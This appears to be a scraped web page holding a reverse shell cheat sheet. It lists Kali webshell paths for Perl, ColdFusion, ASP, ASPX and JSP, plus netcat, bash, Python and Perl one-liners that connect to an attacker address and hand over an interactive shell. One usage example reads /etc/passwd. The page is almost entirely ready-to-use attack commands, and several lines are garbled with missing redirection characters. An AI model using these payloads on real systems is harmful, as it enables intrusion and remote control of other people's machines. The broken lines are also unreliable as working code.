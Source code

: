     Tip: Executing Reverse Shells

    The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

    Kali Perl Reverse Shell

    Kali perl reverse shell:
    Command Description
    /usr/share/webshells/perl/ perl-reverse-shell.pl Pen Test Monkey – Perl Reverse Shell
    /usr/share/webshells/ perl/perlcmd.cgi Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd

    Kali Cold Fusion Shell

    Kali Coldfusion Shell:
    Command Description
    /usr/share/webshells/cfm/cfexec.cfm Cold Fusion Shell – aka CFM Shell

    Kali ASP Shell

    Classic ASP Reverse Shell + CMD shells:
    Command Description
    /usr/share/webshells/asp/ Kali ASP Shells

    Kali ASPX Shells

    ASP.NET reverse shells within Kali:
    Command Description
    /usr/share/webshells/aspx/ Kali ASPX Shells

    Kali JSP Reverse Shell

    Kali JSP Reverse Shell:
    Command Description
    /usr/share/webshells/jsp/jsp-reverse.jsp Kali JSP Reverse Shell

    Src: https://highon.coffee/blog/reverse-shell-cheat-sheet/

    Src: https://evi1us3r.wordpress.com/reverse-shell-cheat-sheet/

    Reverse Shell Cheat Sheet

    Netcat:
    nc 192.168.1.10 443 -e /bin/bash
    /bin/sh | nc 192.168.1.10 443
    rm -f /tmp/p; mknod /tmp/p p && nc 192.168.1.10 443 0/tmp/p
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
    Bash:
    bash -i >& /dev/tcp/192.168.1.10/443 0>&1
    /bin/bash -i > /dev/tcp/192.168.1.10/443 0&1
    0<&196;exec 196/dev/tcp/192.168.1.10/443; sh &196 2>&196
    exec 5/dev/tcp/192.168.1.10/443
    cat &5 >&5; done
    exec 5/dev/tcp/192.168.1.10/443
    cat <&5 | while read line 0&5 >&5; done
    Python:
    python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.10”,443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
    Perl:
    *nix:
    perl -e ‘use Socket;$i=”192.168.1.10″;$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
    Windows:
    perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”192.168.1.10-IP:443″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while;’